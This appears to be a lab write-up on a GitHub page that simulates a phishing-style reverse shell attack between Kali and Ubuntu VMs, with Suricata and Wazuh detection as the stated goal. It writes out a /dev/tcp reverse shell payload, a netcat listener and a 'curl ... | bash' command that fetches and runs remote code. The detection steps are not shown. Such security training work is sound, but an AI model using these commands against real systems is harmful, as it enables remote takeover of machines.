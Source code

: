 
##  Objective

Simulate a **remote reverse shell attack** using a malicious Bash script and detect the activity using **Suricata** and **Wazuh** (configured on the victim machine).

---

## 🧪 Lab Setup

| Role     | Machine | IP Example         | Network Mode     |
|----------|---------|--------------------|------------------|
| Attacker | Kali    | `172.17.128.157`   | Bridged Adapter  |
| Victim   | Ubuntu  | `10.0.2.15`        | NAT              |

> 🔁 Different subnets simulate a remote attack scenario.

---

![Screenshot 2025-07-03 154733](https://github.com/user-attachments/assets/f6c9d61c-35ca-4374-a509-08248f474c39)

###  Step 1: Create Malicious Reverse Shell Script on Attacker

```bash
echo 'bash -i >& /dev/tcp/172.17.128.157/4444 0>&1' > rev.sh
chmod +x rev.sh
```

![image](https://github.com/user-attachments/assets/313a930c-5818-4495-9936-d449cde22c96)

### Step 2: Host the Script via HTTP Server

```bash
sudo python3 -m http.server 80
```
![image](https://github.com/user-attachments/assets/c8fe7502-8607-4d65-bd15-b13c638da700)

Script is now available at: `http://172.17.128.157/rev.sh`

### Step 3: Start Netcat Listener on Attacker

Take new terminal then type this command.

```bash
nc -lvnp 4444
```
![image](https://github.com/user-attachments/assets/b75347ea-762c-491d-93d4-810d75947942)

This waits for the victim's reverse connection.

### Step 4: Simulate Victim Executing the One-Liner (Phishing)

 **Command:**
```bash
curl http://172.17.128.157/rev.sh | bash
```

 **What This Command Does**

This one-liner does two things in a chain:

---

 **1.** `curl http://172.17.128.157/rev.sh`  
`curl` is used to download a file (`rev.sh`) from the attacker's machine (`172.17.128.157`) over HTTP (port 80).

`rev.sh` is a malicious Bash script that contains a reverse shell payload:

```bash
bash -i >& /dev/tcp/172.17.128.157/4444 0>&1
```

---

 **2.** `| bash`  
The `|` (pipe) sends the contents of that downloaded script directly into `bash` for execution.

That means the victim doesn’t save the file or inspect it. It’s blindly executed.

---

In a real-world phishing attack, this would happen when the user clicks a button like:

🔧 *"Click here to install update!"*

---

 **What Is Being Simulated?**

You are simulating a phishing or social engineering attack, where the victim:

- Clicks a fake update link  
- Or opens a terminal and pastes a command suggested by an attacker (e.g., from fake IT support)  
- Or runs an “installer” that connects to the attacker  

---
but for now, we're running it manually on the victim to simulate the victim being tricked.

![image](https://github.com/user-attachments/assets/8b927f3c-9a24-4655-bbf9-d8d5eaf6fe4c)


Now go check if the reverse shell was successful on the attacker machine.


![image](https://github.com/user-attachments/assets/c97221d3-4c21-4dfa-ab8a-80913463265a)

successful .


